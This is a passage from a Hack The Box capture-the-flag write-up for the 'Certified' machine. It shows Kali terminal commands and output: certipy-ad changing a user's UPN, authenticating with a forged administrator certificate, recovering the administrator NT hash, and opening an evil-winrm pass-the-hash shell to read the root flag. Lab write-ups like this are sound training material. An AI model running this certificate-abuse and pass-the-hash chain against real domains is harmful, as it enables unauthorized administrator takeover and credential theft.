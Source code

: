 After 'administrator.pfx' is recieved, revert the change.
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad account update -user ca_operator -upn 'ca_operator@certified.htb' -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad auth -username administrator -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```


`evil-winrm` session with administrator account. 
```shell                         
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ evil-winrm -i 10.129.231.186 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
86239216464f31ebed63b86a18f996ea

```

Root flag is found at: `C:\Users\Administrator\Desktop\root.txt`

